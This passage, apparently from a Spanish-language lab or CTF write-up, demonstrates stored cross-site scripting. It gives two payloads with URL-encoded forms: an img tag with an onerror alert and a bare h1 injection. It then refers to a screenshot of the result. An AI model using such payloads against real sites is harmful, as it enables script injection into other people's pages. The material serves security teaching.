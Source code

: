> Payload 1

```
<img src="x" onerror="alert('XSS Stored!')">

Codificado:

%3Cimg%20src%3D%22x%22%20onerror%3D%22alert%28%27XSS%20Stored%21%27%29%22%3E
```

> Payload 2

```
<h1>XSS</h1>

Codificado:

%3Ch1%3EXSS%3C%2Fh1%3E
```

Ahora si lo enviamos veremos lo siguiente en la pagina:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
